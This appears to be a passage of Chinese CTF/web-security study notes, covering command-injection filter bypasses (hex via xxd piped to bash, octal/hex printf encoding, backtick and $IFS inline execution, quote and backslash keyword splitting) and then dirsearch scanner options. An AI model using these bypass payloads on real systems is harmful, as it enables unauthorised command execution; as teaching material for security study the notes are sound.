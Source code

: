     echo 6361742074656d702e7478740a | xxd -r -p | bash
    ~~~

- Unicode：

  - ~~~bash
    $(printf “\154\163”) 八进制ASCII // ls 
    $(printf “\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70”) // cat flag.php
    ~~~

**内联执行**：

使用内联执行会将 **``** 内的输出作为前面命令的输入

或者 $()

~~~bash
cat$IFS$1`ls`
echo "abcd $(pwd)"
~~~

**特殊字符绕过**：

Linux 命令中可以加 \，因此对于关键字还可以用单引号、双引号、反斜杠截断绕过

~~~bash
cat fl’'ag
cat fl""ag
ca\t fl\ag
~~~



# 工具

## dirsearch

### 1、扫描的目标

~~~bash
-u,--url                    目标url
-l,--url-list=FILE          目标url文件路径 
--stdin                     从标准输入中指定url
--cidr                      目标网段
--raw=File                  从文件中读取request报文,通过-schema指定策略(如--schema https)
~~~



### 2、扫描的字典类型

~~~bash
-e,--extensions             包含的文件拓展名(逗号分隔)  如-e php,asp  
-X,--exclude-extensions     排除的文件拓展名(逗号分隔)  如-X asp,jsp
-f,--force-extensions       在字典的每条记录后面添加文件拓展名

dirsearch默认只会替换字典中%EXT%为指定的extensions 
如-e php  Wishlist.%EXT%-->Wishlist.php
~~~
